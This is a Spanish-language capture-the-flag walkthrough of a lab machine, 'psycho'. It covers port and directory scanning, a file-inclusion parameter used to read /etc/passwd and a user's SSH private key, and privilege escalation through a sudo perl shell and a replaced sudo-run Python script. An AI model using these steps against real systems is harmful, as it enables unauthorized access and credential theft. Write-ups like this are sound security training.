

# Máquina psycho

---

Dificultad -> Fácil

---

Primero, realizamos un escaneo con nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
--------------------------------------------------------------
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
```

Vemos que hay un ssh y un apache asi que accedemos desde el navegador


Podemos ver una simple pagina web, pero si miramos abajo del todo en el codigo fuente se puede ver un error que puede que nos sirva en un futuro


Como no veo nada más, procedo a hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
---------------------------------------------------------------------------------------------------------------------------
/index.php            (Status: 200) [Size: 2596]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/server-status        (Status: 403) [Size: 275]
```

Encuentro index.php que es la pagina que hemos visto anteriormete y  /assets donde se encuentra una imagen que podemos descargar


Descargo la imagen y pruebo a buscar texto oculto en los metadatos y con steganografía pero no encuentro nada.

Volviendo al error de antes, posiblemente falte un argumento en el index.php

asi que busco posibles argumentos con ffuf

```shell
ffuf -u http://172.17.0.2/index.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 674 -t 64
```

ffuf encuentra el parámetro secret asi que pruebo a ejecutar comandos con index.php?secret=id pero solo desaparece error, pruebo a poner index.php?secret=/etc/passwd y consigo ver el contenido del passwd

 

podemos ver que hay 2 usuarios; vaxei y luisillo, pruebo ha hacer bruteforce con hydra pero no consigo nada asi que pruebo a ver la clave id_rsa de los usuarios con /home/usuario/.ssh/id_rsa y encuentro la clave de vaxei


Guardo la clave  en mi maquina y me conecto por ssh con la clave 

```shell
ssh -i sshkey vaxei@172.17.0.2
```

Una vez dentro como el usuario vaxei, buscamos binarios con sudo -l y encontramos que podemos ejecutar el binario perl como el usuario luisillo



Buscamos el binario en [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) y nos convertimos en el usuario luisillo con

```shell
sudo -u luisillo perl -e 'exec "/bin/sh";'
```

Volvemos a buscar binarios y encontramos que podemos ejecutar un script de python como root


Nos dirijimos al script y vemos que no hace nada que nos pueda dar permisos.

No nos deja modificar el script pero si nos deja eliminarlo asi que lo eliminamos y creamos otro con el mismo nombre con el siguiente contenido para que nos abra una shell como root

```shell
import os; os.system("/bin/sh")
```

Finalement, ejecutamos el script con sudo y conseguimos ser root


